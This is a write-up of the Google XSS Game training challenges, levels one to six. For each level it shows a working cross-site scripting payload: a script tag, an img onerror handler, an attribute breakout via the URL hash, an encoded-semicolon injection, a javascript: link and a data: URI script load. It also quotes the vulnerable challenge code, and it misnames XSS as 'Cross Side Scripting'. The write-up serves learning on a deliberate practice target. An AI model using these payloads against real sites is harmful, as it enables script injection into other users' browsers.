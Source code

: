 XSS Challenges
===================

XSS (Cross Side Scripting) Game located at https://xss-game.appspot.com/

Level 1: Hello, world of XSS
----------------

Very straight forward, the begginners XSS, by checking for scripts, they can be injected wherever a user can input information. 
```javascript
<script>alert(1);</script>
```

Level 2: Persistence is key
------------------
This time a basic script tag will not work, however there are other ways to invoke javascript. For instance, you can have an onerror trigger a function when an img is not found.

```javascript
<img src="foo.png" onerror="alert(1)" />
```

Level 3: That sinking feeling...
------------------
This next challenge is a bit more complicated as we can now only modify the URL itself, if we toggle the code on we can see where the hashtag data is processed. The particular line of interest is

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

This line directly takes what is passed in the header to append to the img src tag, however we can manipulate the header such that it closes the source tag and creates an onerror attribute.

```
    https://xss-game.appspot.com/level3/frame#4.png' onerror="alert(1)"/>
```

Which will result in this
```javascript
<img src="/static/level3/cloud4.png" onerror="alert(1)">
```

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}
```
Level 4: Context matters
---------------------------
This  one was a bit more tricky as MVC was implemented to provide some structure, at first I tried a URL like 

```
    https://xss-game.appspot.com/level4/frame?timer=');alert('1
```

However, I eventully realized that the semicolon is not being parsed and if I pass the URL encoding of a semicolon it would work

```
    https://xss-game.appspot.com/level4/frame?timer=')%3Balert('1
```

Which results in this
```javascript
    <img src="/static/loading.gif" onload="startTimer('');alert('1');">
```

```html
<body id="level4">
  <img src="/static/logos/level4.png" />
  <br>
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  <br>
  <div id="message">Your timer will execute in {{ timer }} seconds.</div>
</body>
```

Level 5: Breaking protocol
---------------------------------

At first this problem looks complicated, however it took me much less time now that I know to pass in URL encoded characters. After clicking sign-up, you see a page with a next href. The location to where this href goes to is entirely regulated by next=confirm, so this variable could be manipulated to make the link execute javascript.

```javascript
<a href="{{ next }}">Next >></a>
```

My method was 
```
    https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert(1)
```

Which turned the link to
```html
    <a href="javascript:alert(1)">Next &gt;&gt;</a>
```

Level 6: Follow the
------------------------

This one stumped me for quite a bit, I wanted to somehow get my javascript from babbage linked in, however the javascript checks for "http", so I couldn't figure out a solution.

I looked online and the solution was 
```
    https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
I found this solution lame as it didn't actually load external javascript persay. One thing I wanted to try is loading the javascript file through FTP which babbage does not seem to have.

All in all, I learned quite a bit in Cross Side Scripting attacks.

